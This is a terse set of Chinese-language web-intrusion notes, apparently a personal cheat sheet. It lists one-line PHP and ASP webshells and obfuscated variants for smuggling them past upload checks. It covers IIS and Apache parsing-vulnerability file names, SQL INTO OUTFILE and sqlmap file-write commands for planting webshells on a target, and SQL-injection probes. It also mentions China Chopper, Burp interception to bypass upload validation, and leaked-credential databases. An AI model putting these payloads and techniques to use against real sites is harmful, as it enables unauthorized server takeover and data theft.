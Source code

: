 php一句话：<?php @eval($_POST['pass']);?>
asp一句话：<%eval request("pass")%>

---

###中国菜刀
webshell、图片、

http://172.28.31.117/production/product_SMALLPhoto/2020311153139764.jpeg

一句话改造%> <%eval request("pass")%> <%'

php一句话：?> <?php @eval($_POST['pass']);?> <?php #

抓包获取url cookie

brupsuite上传webshell，获取cookie，上传页面，明小子综合上传
			
.asp;*.jpg扩展名为asp

.asp;123.jpg

iis解析漏洞
apache 解析漏洞，test.php.xx 从后向前解析

编辑器上传漏洞

%2Fa.asp%NewFolderName=a.asp 

/a.asp/a.jpeg
			
sql写入webshell select "test" into outfile "D:/www/test1.txt"

 select * from hack union select 1,一句话，3 into outfile "D:/www/test1.txt"；
 
sqlmap **** --is-dba
sqlmap https：//** --file-wirte "本地/ma.php" --file-dest "目标/ma.php"
			
php注入点http://ip/info_show.php?info_id=142

sqlmap>php

site：www.baidu.com warning

物理地址暴露

www.baidu.com and 1=2 报错 暴露目录，文件上传漏洞
工具找主目录

权限上传

无权限上传，无权限上传编辑器漏洞，主目录，管理员权限
上传前端验证，后端验证
前端验证绕过
后端mime类型
解析漏洞，brup拦截改包
			
google hosts、代理服务器、翻墙软件
社工库
			
php
info_show.php?info_id=142 and 1=1正常 1=2 不正常 注入点
